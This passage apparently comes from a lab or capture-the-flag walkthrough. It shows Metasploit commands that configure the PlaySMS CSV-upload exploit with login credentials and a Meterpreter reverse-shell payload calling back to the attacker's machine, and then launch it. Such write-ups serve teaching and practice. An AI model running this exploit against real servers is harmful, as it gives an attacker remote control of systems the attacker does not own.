 Here Three Exploits Available

We will use the first exploit:

```bash
msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/playsms_uploadcsv_exec) > show options

Module options (exploit/multi/http/playsms_uploadcsv_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base playsms directory path
   USERNAME   admin            yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PlaySMS 1.4



View the full module info with the info, or info -d command.
```

#### Configuring the Exploit

```bash
msf6 exploit(multi/http/playsms_uploadcsv_exec) > set RHOSTS 192.168.1.5
RHOSTS => 192.168.1.5
msf6 exploit(multi/http/playsms_uploadcsv_exec) > set TARGETURI /SecreTSMSgatwayLogin
TARGETURI => /SecreTSMSgatwayLogin
msf6 exploit(multi/http/playsms_uploadcsv_exec) > set USERNAME touhid
USERNAME => touhid
msf6 exploit(multi/http/playsms_uploadcsv_exec) > set PASSWORD diana
PASSWORD => diana
msf6 exploit(multi/http/playsms_uploadcsv_exec) > set LHOST 192.168.1.8
LHOST => 192.168.1.8
msf6 exploit(multi/http/playsms_uploadcsv_exec) > exploit
```
